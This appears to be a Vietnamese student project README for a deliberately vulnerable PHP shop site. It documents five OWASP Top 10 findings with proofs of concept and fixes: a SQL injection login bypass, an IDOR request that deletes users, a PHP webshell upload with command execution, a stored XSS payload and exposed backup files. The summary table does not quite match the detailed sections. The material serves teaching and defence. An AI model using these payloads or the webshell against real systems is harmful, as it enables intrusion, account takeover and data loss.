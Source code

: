 # Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQL Injection)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control (IDOR)** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A07:2021 - Identification and Authentication Failures** | Cơ chế xác thực yếu, cho phép chiếm quyền tài khoản. | `/login.php` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |



---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
- Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* | ![Database](screenshots/database.png) |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* | ![Code](screenshots/a1-deleteUser.png) |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* | ![Update + Capture](screenshots/a1-0.png) |
| **4** | *Payload thay đổi request từ update email sang delete user.* | ![Payload](screenshots/a1-1.png) |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* | ![Result](screenshots/a1-3result.png) |



#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  
  | Test |  Check |
  |---|---|
  | ![Test](screenshots/testimg.png) | ![Check](screenshots/checkimg.png) |
---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  
```php
<?php echo system($_GET['command']); ?>
```
### 📌 3. Upload file pls.php thông qua chức năng Upload Avatar
  | Check |  Test |
  |---|---|
  | ![Check](screenshots/check-webshell.png) | ![Test](screenshots/upload-webshell.png) |
### 📌 4. Thực thi lệnh từ xa
Gửi request thực thi lệnh whoami để xác định user chạy webserver:
```
GET /web_pen_v1/public/uploads/pls.php?command=whoami HTTP/1.1
Host: localhost
````
-Response trả về:
```
HTTP/1.1 200 OK
Server: Apache/2.4.62 (Win64) OpenSSL/3.0.15 PHP/8.3.16
...
desktop-4kbnl3q\ducson
```
-👉 Điều này chứng minh lệnh đã được thực thi trên máy chủ.

### 🚨 5. Ảnh Chụp Màn Hình (PoC Visuals)
| Step | Description | Images |
|------|------------|--------|
| 1 | Kiểm tra webshell có thể tải lên hay không. | ![Check](screenshots/check-webshell.png) |
| 2 | Tải lên file webshell `pls.php`. | ![Upload](screenshots/upload-webshell.png) |
| 3 | Truy cập webshell qua trình duyệt và gửi lệnh. | ![Webshell-1](screenshots/webshell-1.png) |
| 4 | Thực thi lệnh từ xa và nhận kết quả. | ![Webshell-2](screenshots/webshell-2.png) |
| 5 | Response hiển thị kết quả `apache`, chứng minh RCE thành công. | ![Result](screenshots/result-rce.png) |
### 🔧 Biện Pháp Khắc Phục Được Đề Xuất
#### ✅ 1. Kiểm tra loại file bằng MIME type thay vì chỉ kiểm tra phần mở rộng
- Sử dụng finfo_file() để kiểm tra loại file thực sự:
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $_FILES['avatar']['tmp_name']);
finfo_close($finfo);
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime_type, $allowed_types)) {
    die("File type not allowed!");
}
```
#### ✅ 2. Đổi tên file khi lưu trữ để ngăn chặn thực thi
```
$newFileName = uniqid() . ".jpg";
move_uploaded_file($_FILES['avatar']['tmp_name'], "uploads/" . $newFileName);
```
#### ✅ 3. Vô hiệu hóa PHP trong thư mục uploads bằng .htaccess
-Tạo file .htaccess trong uploads/ với nội dung:
```
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```
#### ✅ 4. Định dạng lại quyền thư mục
Đặt quyền chmod 644 cho file, chmod 755 cho thư mục uploads để tránh thực thi mã độc.

</details>
<details>  
  <summary>🛑<strong> A03:2021 - Injection (Stored XSS) - Bình luận Blog</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Cho phép thực thi mã JavaScript độc hại trên trình duyệt của người dùng.  
- **Hệ lụy**:  
  - Đánh cắp cookie hoặc dữ liệu phiên của người dùng.  
  - Tạo ra các cuộc tấn công giả mạo (phishing).  
  - Chiếm quyền điều khiển tài khoản nếu kết hợp với các lỗ hổng khác.  
---

## 📌 Phát Hiện Chung  
- Tại trang **`blog_detail.php`**, người dùng có thể để lại bình luận dưới mỗi bài viết.  
- Ứng dụng **không kiểm tra hoặc mã hóa dữ liệu đầu vào**, cho phép chèn mã JavaScript.  
- Khi bình luận chứa mã độc được hiển thị trên trang, nó **tự động thực thi trên trình duyệt** của các người dùng khác.  
---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Gửi Payload XSS  
- Truy cập trang chi tiết bài viết (`blog_detail.php`).  
- Nhập nội dung bình luận với payload sau:  

```html
<script>alert("Check")</script>

```
---

### 📌 2. Kiểm tra kết quả  
- Truy cập lại trang `blog_detail.php` và quan sát trình duyệt.  
- Nhận thấy **hộp thoại alert xuất hiện**, chứng tỏ mã JavaScript đã được thực thi.  

📸 **Ảnh minh họa**:  

| Gửi Payload XSS | XSS được kích hoạt |
|-----------------|-------------------|
| ![Comment XSS](screenshots/comment-xss.png) | ![Alert XSS](screenshots/alert-xss.png) |
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

#### ✅ 1. Lọc & mã hóa đầu vào  
- Trước khi lưu bình luận vào database, mã hóa ký tự đặc biệt:  

```
php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

```
  
#### ✅ 2. Xác thực đầu vào  
- Chỉ cho phép nhập văn bản thuần bằng cách kiểm tra regex hoặc whitelist các ký tự hợp lệ.  

#### ✅ 3. Sử dụng Content Security Policy (CSP)  
- Cấu hình CSP để chặn việc thực thi mã JavaScript nội tuyến:  
```
Content-Security-Policy: default-src 'self'; script-src 'self';
```
</details>
<details>  
  <summary>🛑<strong> A05:2021 - Security Misconfiguration - Lộ File Backup</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Dò được thông tin nhạy cảm của hệ thống.  
- **Hệ lụy**:  
  - Lộ thông tin về cấu hình Git.  
  - Dò ra đường dẫn thư mục nội bộ và các file quan trọng.  
  - Tạo điều kiện cho các cuộc tấn công tiếp theo như **Privilege Escalation** hoặc **RCE**.  

---

## 📌 Phát Hiện Chung  
- Khi truy cập thư mục `/backup/`, có thể thấy danh sách file backup của hệ thống.  
- Không có bất kỳ **cơ chế chặn truy cập** nào, dẫn đến **lộ thông tin quan trọng**.  
- Các file như `git-config-old.txt`, `git-logs-old.txt`, `git-status-old.txt` chứa dữ liệu nhạy cảm.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Truy cập đường dẫn backup  
- Mở trình duyệt và truy cập:  
```
http://localhost/web_pen_v1/backup/
```

- Kết quả trả về danh sách file backup:  

📸 **Ảnh minh họa**:  

| Mở thư mục backup | Nội dung file backup |
|-------------------|---------------------|
| ![Index Backup](screenshots/index-backup.png) | ![File Content](screenshots/file-backup.png) |

---

### 📌 2. Đọc nội dung file `git-config-old.txt`  
- Mở file backup và thấy thông tin nhạy cảm:  
```
[user]
    name = carlos
    email = carlos@admin.com
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
```

- Lộ thông tin admin, cấu trúc repo, và các file quan trọng khác.  
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

### ✅ 1. Chặn truy cập thư mục `/backup/` bằng `.htaccess`  
Tạo file `.htaccess` trong thư mục `backup/` và thêm:  
```
Options -Indexes
Deny from all
```
#### ✅ 2. Xóa các file backup không cần thiết
Kiểm tra và xóa ngay các file backup không sử dụng.
Không lưu trữ file backup trong thư mục public.
#### ✅ 3. Cấu hình đúng quyền truy cập
Đặt quyền truy cập thư mục /backup/ chỉ cho phép admin:
```
chmod -R 700 backup/
```
</details>

